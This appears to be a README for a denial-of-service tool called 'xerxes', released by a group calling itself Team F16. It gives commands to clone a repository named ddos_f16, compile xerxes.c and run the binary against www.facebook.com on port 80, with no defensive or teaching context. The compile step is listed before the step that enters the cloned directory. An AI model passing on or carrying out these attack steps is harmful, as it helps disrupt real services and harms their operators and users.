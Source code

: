 <h1 align="center">F16</h1>
<p align="center">
  Team F16
</p>

### CLONE
```
# git clone https://github.com/th3ross/ddos_f16.git
```

### COMPILE
```
# gcc xerxes.c -o xerxes
```
 
 ```
# cd ddos_f16
```
 
### RUNNING
```
# ./xerxes www.facebook.com 80
```
